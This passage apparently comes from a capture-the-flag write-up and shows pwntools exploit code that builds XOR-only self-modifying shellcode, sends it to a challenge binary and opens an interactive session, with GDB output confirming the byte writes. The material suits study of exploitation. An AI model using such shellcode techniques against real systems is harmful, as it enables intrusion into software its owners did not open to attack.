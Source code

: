 ```
xor dh, BYTE PTR [rax];
xor al, 0x41;
xor BYTE PTR [rax], dh;
''')
#Write in the second H
shellcode += asm('''
xor al, 0x33;
xor al, 0x30;
xor BYTE PTR [rax], dh;
''')

print(len(shellcode))
shellcode += asm('xor BYTE PTR [rsi], dh;') * ((0x30 - len(shellcode)) // 2)
shellcode += asm('''
xor dh, BYTE PTR [rax]
xor al, 0x39;
''')

payload = base64.b16decode(shellcode + asm('xor BYTE PTR [rsi], dh;') * ((0x70 - len(shellcode)) // 2) + b'A' + b'10' + b'A' + b'1' + b'0' * 3) 

print(payload)
target.sendline(payload)

target.interactive()
```
And here is a GDB snippet showing the success off this operation:
```
 → 0x133713370014                  xor    BYTE PTR [rax], dh
   0x133713370016                  xor    BYTE PTR [rax], dh
   0x133713370018                  xor    BYTE PTR [rax], dh
   0x13371337001a                  xor    BYTE PTR [rax], dh
   0x13371337001c                  xor    BYTE PTR [rax], dh
   0x13371337001e                  xor    BYTE PTR [rax], dh
─────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chal_patched", stopped 0x133713370014 in ?? (), reason: SINGLE STEP
───────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x133713370014 → xor BYTE PTR [rax], dh
[#1] 0x55b7182c7447 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/8bx 0x133713370070
0x133713370070: 0x48    0x31    0x30    0x48    0x31    0x30    0x30    0x30
```

### Writing 0xff and 0xc0:

The next byte to write is 0xff at offset 0x72. This introduces the necessity of finding a larger byte to add into the XOR operation, and I opted to use the bh register on the 1/16 odds that it equals 0xf4. Now, 0xff = 0xf4 ^ 0xb, and 0xb = 0x9 ^ 0x30 ^ 0x32; 0x9 is included since that is the pre-existing value in dh. This means that we can insert a relative short shellcode snippet can be inserted directly after the `xor BYTE PTR [rax], dh` instruction that writes the last H:
```
#Remember dh = 0x9 and al = 0x73 at this point.
shellcode += asm('''
xor al, 0x42;
xor dh, BYTE PTR [rax];
xor al, 0x43;
xor BYTE PTR [rax], bh;
xor BYTE PTR [rax], dh; 
''')
```